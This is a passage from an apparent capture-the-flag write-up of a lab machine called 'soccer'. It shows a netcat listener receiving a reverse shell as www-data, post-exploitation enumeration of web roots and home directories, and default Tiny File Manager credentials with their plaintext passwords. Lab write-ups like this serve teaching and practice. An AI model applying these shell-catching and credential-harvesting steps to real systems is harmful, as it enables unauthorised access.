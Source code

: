 

It hangs, but there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.194 55140
    bash: cannot set terminal process group (1048): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@soccer:~.md/tiny/uploads$ 



I'll upgrade my shell using the `script` / `stty`
[trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q).

## Shell as player

### Enumeration

#### Web Roots

The files in `/var/www.md` match what I observed via the file manager:



    www-data@soccer:~.md$ ls 
    football.jpg  ground2.jpg  ground4.jpg  tiny
    ground1.jpg   ground3.jpg  index.md



There's no database connection. The only credentials in the files are
the users created for the Tiny File Manager:



    // Login user name and password
    // Users: array('Username' => 'Password', 'Username2' => 'Password2', ...)
    // Generate secure password hash - https://tinyfilemanager.github.io/docs/pwd.md
    $auth_users = array(
        'admin' => '$2y$10$/K.hjNr84lLNDt8fTXjoI.DBp6PpeyoJ.mGwrrLuCZfAwfSAGqhOW', //admin@123
        'user' => '$2y$10$Fg6Dz8oH9fPoZ2jJan5tZuv6Z4Kp7avtQ9bDfrdRntXtPeiMAZyGO' //12345                                                      
    );



#### Other Home Directories

There's one home directory in `/home`, `player`:



    www-data@soccer:/home$ ls
    player



`user.txt` is in that directory but www-data can't read it:

